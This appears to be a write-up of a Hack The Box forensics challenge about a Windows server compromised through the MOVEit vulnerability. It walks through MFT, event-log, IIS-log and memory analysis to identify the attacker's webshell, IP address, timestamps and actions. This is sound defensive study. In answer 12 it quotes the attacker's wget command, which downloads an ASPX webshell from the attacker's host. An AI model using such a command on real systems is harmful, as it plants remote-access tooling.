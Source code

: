 layout: default
title: "README.md

### Summary: 

*I-like-to* is one of the first Sherlocks HTB has published. Despite being ranked as easy, it still provides a good learning value for a beginner. While working on this challenge, I have acquainted with MOVEit vulnerability, analysed KAPE artifacts, including MFT file, correlated data with raw hex, and answered relevant questions regarding the exploitation of the vulnerability.

### Challenge scenario: 

"We have unfortunately been hiding under a rock and do not see the many news articles referencing the recent MOVEit CVE being exploited in the wild. We believe our Windows server may be vulnerable and has recently fallen victim to this compromise. We need to understand this exploit in a bit more detail and confirm the actions of the attacker & retrieve some details, so we can implement them into our SOC environment. We have provided you with a triage of all the necessary artefacts from our compromised Windows server. PS: One of the artifacts is a memory dump, but we forgot to include the vmss file. You might have to go back to basics here..."

### Walkthrough:

1. *Name of the ASPX webshell uploaded by the attacker?*
	I parcelled MFT using MFTCmd and then opened it with TimeLine Explorer. The first question is to find ASPX web shell, I filtered files' extension to .aspx and the first file in the output had missing 0x30 ($Filename information) timestamp which indicates that it was likely uploaded from a different host. 
	
	Answer: move.aspx

2. *What was the attacker's IP address?*
	To find the attacker's IP address I had to find Microsoft Internet Information Service, open it with a text editor and find the uploaded file. Also, there are a lot of signs of network enumeration conducted by the threat actor. 
	
	It's worth noting that I've tried to find the IP address initially by multiplying the file's entry number by 1024 and converting it to hex, then looking for this offset number in the MFT hex dump (using HxD). Also, by running `Get-Item (file path) -Stream *` and `Get-Content`. Yet this method is more suitable for analysing Zone.Identifier data. 
	
	Answer: 10.255.254.3

3. *What user agent was used to perform the initial attack?*
	I continued investigating IIS logs and indicators of compromise for the exploit. I found one of them (machine2.aspx) in the logs and User Agent in the lines below. 
	
	Answer: Ruby

4. *When was the ASPX webshell uploaded by the attacker?*
	Using Timeline Explorer, I returned to the first file I had found, looked at its entry number and investigated its timestamps, then used MFTECmd (particular attention to $FILE_NAME or 0x30 information) to identify the time when the script was uploaded.
	
	Answer: 12/07/2023 11:24:30
	
	`.\MFTECmd -f 'C:\Users\glebas\Desktop\$MFT' --de 1293` ![Pasted image 20250210105019](https://github.com/user-attachments/assets/1c60bb9f-8981-43d5-b49f-947a0b88fa3c)

5. *The attacker uploaded an ASP webshell which didn't work, what is its filesize in bytes?*
	Filtered MFT entries to display the same day when 'move.aspx' was uploaded. The next entry is another malicious file 'moveit.asp' and it has file size specified in the entry.
	
	Answer: 1362

6. *Which tool did the attacker use to initially enumerate the vulnerable server?*
	Numerous attempts of port enumeration using nmap can be seen in IIS and DMZ_FTP log files
	
	Answer: nmap

7. *We suspect the attacker may have changed the password for our service account. Please confirm the time this occurred (UTC)*
	Using EvtxECmd I converted directory with Windows event logs (included logs IDs related to password change 4723, 4724... etc) into a CSV file, opened it with Timeline Explorer and found there service account password attempt with ID 4724.
	
	Answer: 12/07/2023 11:09:27

8. *Which protocol did the attacker utilize to remote into the compromised machine?*
	To identify internet protocol the adversary used to connect, I had to re-process evtx logs once again including all the events this time (with the thought of the future usage). Then, I filtered events 4624 that identify successful connections and using logon type 10 is typically mark of RDP connection.
	
	Answer: RDP

9. *Please confirm the date and time the attacker remotely accessed the compromised machine*
	Timestamp can be found in previous question.
	
	Answer: 12/07/2023 11:11:18

10. *What was the useragent that the attacker used to access the webshell?*
	The user agent can be found in IIS logs, in particular near malicious files with GET or POST requests.
	
	Answer: Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0

11. *What is the inst ID of the attacker?*
    I installed MySQL server and workbench to analyse moveit.sql file and found the ID among the entries. You shall look for attacker's nickname.
    
    Answer: 1234

12. What command was run by the attacker to retrieve the webshell?
	
	Answer: `wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx`

13. *What was the string within the title header of the webshell deployed by the TA?*
	To find a header I used command `strings "C:\Users\glebas\Desktop\I-like-to-27a787c5.vmem" | Select-String "move.aspx" -Context 20, 20` -- it allows to see 20 lines above and below from the target line (move.aspx) in this case.
	
	Answer: awen asp.net webshell

14. *What did the TA change the our moveitsvc account password to?*
	I found new password by conducting strings analysis of vmem file and with the search for "net user 'moveitsvc" because password follows it
	
	Answer: 5trongP4ssw0rd


